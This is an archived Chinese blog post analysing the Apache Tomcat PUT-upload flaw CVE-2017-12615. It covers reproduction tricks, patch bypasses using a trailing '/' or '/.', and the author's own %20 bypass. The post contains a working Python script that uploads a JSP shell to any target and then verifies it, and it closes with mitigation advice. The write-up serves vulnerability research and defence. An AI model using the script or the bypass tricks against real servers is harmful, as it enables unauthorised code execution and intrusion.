

# Tomcat 代码执行漏洞(CVE-2017-12615)的演绎及个人 bypass - 水泡泡 - 博客园

> 原文：[`www.cnblogs.com/r00tuser/p/7569942.html`](https://www.cnblogs.com/r00tuser/p/7569942.html)

**0x00 漏洞简介**

*2017 年 9 月 19 日，Apache Tomcat 官方确认并修复了两个高危漏洞。*

漏洞 CVE 编号:CVE-2017-12615 和 CVE-2017-12616。

其中 远程代码执行漏洞（CVE-2017-12615）

影响： Apache Tomcat 7.0.0 - 7.0.79

漏洞触发条件：

1，tomcat 得架设在 windows 主机上

2，将 readonly 由默认值 true 设置为 false。（开启 http PUT 方法）

攻击者将有可能可通过精心构造的攻击请求向服务器上传包含任意代码的 JSP 文件。之后，JSP 文件中的代码将能被服务器执行。

该漏洞由 360 观星实验室发现并提交。

官方在确认漏洞并在 tomcat 7.0.81 中修复。

**0x01 漏洞演绎：漏洞复现**

需要的环境：

1，tomcat 版本低于 7.0.81

2，burpsuite

官网上在 7.0.81 出来之后就找不到低于该版本的了，在 csdn 下了一个 7.0.65 的免安装版。

jdk 的配置与及环境变量的配置就不多说了。配置好 conf/web.xml 的 readonly 为 false。如下图



startup 启动 tomcat，环境就算搭好了。

漏洞利用姿势有两种：

1，**利用 windows 对文件名的要求特性**。倘若文件名最后的一个字符是空格或者点号，会被自动去掉。

利用空格


利用点号

 

 2，**利用 windows 的 ntfs 文件流特性**。关于文件流请看这里（https://msdn.microsoft.com/en-us/library/dn393272.aspx）


 至于原理可以参考先知的分析(http://mp.weixin.qq.com/s/wWkb079hUYOwDgVQqEqGZQ)

**0x02 漏洞演绎:bypass 补丁**

在各方大佬对官方的的补丁进行分析,fuzz 之后，发现了在文件名后加多一个**'/'** 或者**'/.'**，可以直接 bypass 补丁，**攻击范围也从仅限于的 windows 扩展到 windows 和 linux,漏洞影响版本也从仅影响 7.x 版本，直接日穿 5.x 到 9.x 所有版本。**

**漏洞影响：**

**版本：5.x-9.x**

**平台：windows,linux**

bypass 补丁环境准备：

1，tomcat 7.0.81

2，burpsuite

修改好 readonly，开始测试。

**利用'/'**


** 利用'/.'**


** 0x03 漏洞演绎：我的 bypass**

在对多个版本进行复现，测试的时候，我也发现了一个'bypass'，有些鸡肋，充其量应该算是补丁的缺陷吧。

1，版本仅限于 7.0.81；

2，平台仅限于 windows；

bypass 思路：先 put 请求一个服务器上面存在的 jsp 文件，如 index.jsp%20，再 put 我们自己的 shell.jsp%20，神奇的发现创建了 shell.jsp。测试了很久，发现只有%20 可以过。

比如 tomcat 服务器上肯定存在 index.jsp。

先 put index.jsp%20 ，提示 409


 再 put shell.jsp%20，可以发现成功创建了 shell.jsp


在用 burpsuite 测试的时候，时不时会过不了。

写了个脚本，思路就清晰了不少。

```
 1 #-*- coding:utf-8 -*-
 2 
 3 import requests 4 import sys 5 import random 6 
 7 
 8 body = '<%out.println("hello ! This is my bypass shell");%>'
 9 
10 urltemp = 'http://'+sys.argv[1]+'/index.jsp%20' # put the exists jsp,like the index.jsp
11 shellname = 'shell'+str(random.randint(1000,10000)) 12 
13 urlpoc = 'http://'+sys.argv[1]+'/'+shellname+'.jsp%20'
14 
15 urlnormal =  'http://'+sys.argv[1]+'/'+shellname+'.jsp'
16 
17 
18 requests.put(urltemp,body) 19 
20 response = requests.put(urlpoc,body) 21 
22 code = response.status_code 23 
24 if code== 201: 25     print 'shell create'; 26 
27 response = requests.get(urlnormal) 28 code = response.status_code 29 if code == 200: 30     print 'Your shell: '+urlnormal
```

脚本是稳定的：


至于为什么会出现这种问题，得好好跟一下才知道了~~

**0x04 修复方案**：

认真检查 tomcat 配置是否设置了 readonly 为 false 或者是否启用了 PUT 方法，设置 readonly 为 true，禁用 PUT 方法！！

留意官方的最新补丁，及时升级！！

参考文章：

1，Tomcat 远程代码执行漏洞分析（CVE-2017-12615）及补丁 Bypass（http://www.freebuf.com/vuls/148283.html）

2，Tomcat 信息泄漏和远程代码执行漏洞分析报告（CVE-2017-12615/CVE-2017-12616）（https://mp.weixin.qq.com/s/wWkb079hUYOwDgVQqEqGZQ）